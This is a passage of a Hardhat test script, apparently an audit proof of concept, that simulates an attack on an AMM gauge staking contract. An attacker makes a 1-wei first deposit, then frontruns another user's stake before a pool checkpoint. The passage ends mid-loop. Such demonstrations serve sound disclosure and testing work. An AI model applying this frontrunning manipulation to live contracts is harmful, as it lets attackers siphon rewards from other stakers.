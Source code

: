             const stake = async (to, amount) => {
                await updateStates()
                console.log(" ")
                // Balance before
                let balanceBefore = await this.ammgauge.balances(to.address);
                // Stake
                await this.ammgauge.connect(to).stake(amount);
                expect(await this.ammgauge.balances(to.address)).to.be.eq(balanceBefore.add(amount));
                // await updateStates();
                console.log(" ")
            }

            const unstake = async (to, amount) => {
                await updateStates()
                console.log(" ")
                // Balance before
                let balanceBefore = await this.ammgauge.balances(to.address);
                // Stake
                await this.ammgauge.connect(to).unstake(amount);
                expect(await this.ammgauge.balances(to.address)).to.be.eq(balanceBefore.sub(amount));
                await updateStates();
                console.log(" ")
            }

            // HERE IS WHERE THE SIMULATION IS PERFORMED
            let simulationTimes = 2;
            let withOneWeiDeposit = true;

            if (withOneWeiDeposit) {
                // Alice deposits first
                console.log("Alice Deposits 1wei")
                let firstUserDeposit = ethers.utils.parseEther("1");
                await stake(alice, 1);
            }

            for (let index = 1; index <= simulationTimes; index++) {
                console.log(" ")
                console.log(`Loop number ${index}`);
                console.log(" ")

                console.log("A day passes until Bob decides to deposit")
                await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 1 days

                console.log(" ")
                console.log("She scans that Bob is about to stake 10. So decides to frontrun him.")
                console.log("Alice Frontruns")
                let frontrunAmount = ethers.utils.parseEther("10");
                await stake(alice, frontrunAmount);

                console.log(" ")
                console.log("Bob stakes 10 tokens")
                await stake(bob, frontrunAmount)

                // A few days pass
                await ethers.provider.send("evm_increaseTime", [1 * 24 * 60 * 60]); // 2 days
                // The pool is checkpointed
                await this.ammgauge.poolCheckpoint();
                console.log("After 1 day the pool is checkpointed")
                await updateStates()

